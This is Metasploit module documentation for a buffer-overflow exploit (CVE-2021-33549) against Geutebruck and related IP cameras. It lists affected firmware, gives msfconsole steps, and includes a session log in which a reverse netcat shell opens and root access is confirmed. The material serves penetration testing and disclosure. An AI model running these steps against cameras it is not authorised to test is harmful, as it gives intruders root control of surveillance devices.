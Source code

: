 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27, firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module exploits a buffer overflow (CVE-2021-33549) within the `action` GET parameter of /uapi-cgi/instantrec.cgi.
Successful exploitation will result in remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_instantrec_bof`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_instantrec_bof
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_instantrec_bof) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_instantrec_bof) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_instantrec_bof) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```